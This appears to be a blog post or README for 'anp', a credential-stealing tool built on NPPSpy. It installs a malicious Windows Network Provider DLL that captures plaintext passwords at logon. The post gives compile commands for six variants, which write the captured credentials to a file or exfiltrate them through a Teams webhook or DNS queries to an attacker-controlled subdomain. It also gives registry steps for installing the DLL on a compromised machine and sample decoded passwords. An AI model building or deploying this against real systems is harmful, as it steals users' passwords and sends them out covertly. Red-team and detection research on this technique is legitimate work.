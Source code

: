 ```yaml
---
layout: post
title: anp - Playing with Network Providers
excerpt_separator: <!--more-->
---
```


NPPSpy and NPPSPy2 are great tools to retrieve user credentials in many cases. In this repository, I will add some encryption and exfiltration methods to these tools by gtworek.

<!--more-->


Repository: [https://github.com/ricardojoserf/anp](https://github.com/ricardojoserf/anp)

<br>

The original tools, NPPSpy and NPPSpy2, manipulate the authentication process by using a malicious DLL which helps offensive professionals capturing usernames and passwords before encryption. This is amazing when the system has enabled protections such as PPL or Credential Guard but the security software is not monitoring the creation/manipulation of registry keys (not so typical but it is interesting to check the Blue Team detects it). 

anp ("another network provider") are tests to create Network Providers based on the mentioned tools by [gtworek](https://github.com/gtworek). All credit goes to the original author - I'm simply adding some functionality to explore what works best for me, but I thought it could be interesting for someone so I decided to make it public :)

I will use Base64-encoding or AES-encryption in all examples with the following JSON-like structure to store the information: 

```json
{"timestamp":"TIMESTAMP","operation":"OPERATION","domain":"DOMAIN","username":"USERNAME","password":"PASSWORD"}
```

To use it, simply:

- Compile the DLL (the easiest way is using "x64 Native Tools Command Prompt for VS" cmd)

- Create or update the registry keys (check the [installation](#installation) section)

- Wait until a user logs in or updates its password

<br>

## 1. Store in a text file + Base64-encoding

The default path is "C:\Windows\Task\default.txt" but you can customize it using the macro /DFILE_PATH:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" 1_textfile_base64.c crypt32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```bash
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9PTEQiLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InFxIn0=
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9ORVciLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InEifQ==
```

Which decoded is:

```json
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 2. Store in a text file + AES-encryption

The default path is "C:\Windows\Task\default.txt" and the default AES password is "TEST1234", but you can customize it using the macros /DFILE_PATH and /DAES_PWD:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" /DAES_PWD=\"TEST1234\" 2_textfile_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```bash
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

You can decrypt it using *decrypt_aes.py*:

```bash
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

And you get:

```json
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 3. Send to Teams webhook + Base64-encoding

There is not a default webhook url, you have to set the value using the macro /DWEBHOOK_URL:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" 3_webhook_base64.c crypt32.lib wininet.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 1:

![imgteams1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams1.png)

<br>

## 4. Send to Teams webhook + AES-encryption

You have to set the webhook url value using the macro /DWEBHOOK_URL, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" /DAES_PWD=\"TEST1234\" 4_webhook_aes.c crypt32.lib wininet.lib advapi32.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 2:

![imgteams2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams2.png)


<br>

## 5. DNS exfiltration + Base64-encoding

This one is not ideal, as the maximum length for a subdomain is 63 characters so it requires multiple DNS queries. As a result, the logon process is delayed by a few seconds, making the slowdown noticeable in some cases.

There is not a default subdomain, you have to set the value using the macro /DSUBDOMAIN:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" 5_dns_base64.c crypt32.lib /link /OUT:anp.dll
```

You can use [this repository](https://github.com/ricardojoserf/dns-exfiltration) for creating the necessary subdomains and the *dns_server.py* script to decode the received values.

```bash
python3 dns_server.py .SUBDOMAIN.DOMAIN.COM
```

![imgdns1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns1.png)

It also generates a log file with the subdomains and decoded values:

![imgdns2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns2.png)

<br>

## 6. DNS exfiltration + AES-encryption

You have to set the subdomain value using the macro /DSUBDOMAIN, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" /DAES_PWD=\"TEST1234\" 6_dns_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

You can use the *dns_server.py* script again to receive resolved domains and store it in a file:

![imgdns3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns3.png)

And the *decrypt_aes.py* script to decrypt the values:

![imgdns4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns4.png)

<br>

--------------------

## Installation

You can follow the instructions in [NPPSpy](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy) by [gtworek](https://github.com/gtworek), which can be summed up to:

- Copy the DLL to a path in the compromised system.

- Add a network provider name at the end of the "ProviderOrder" in `HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order`. For this example I will use "anp".

- Create a key with the format `HKLM\SYSTEM\CurrentControlSet\Services\<CHOSEN_NAME>\NetworkProvider`, for the example I will use `HKLM\SYSTEM\CurrentControlSet\Services\anp\NetworkProvider`.

  - Class = [REG_DWORD]2 - Always this value.

  - ProviderPath = [REG_EXPAND_SZ]"C:\Users\ricardo\Desktop\test.dll" - Path to the DLL.

  - Name = [REG_SZ]"anp" - The name you chose, in this case I will use "anp".
 
<br>

--------------------

## TO-DOs

- Implement more exfiltration techniques (PRs are welcome!)


<br>

--------------------

## References

- [NPPSpy2](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy2) by [gtworek](https://github.com/gtworek) - Again, these programs are just adding some functionality to NPPSpy(2) code.

<br>
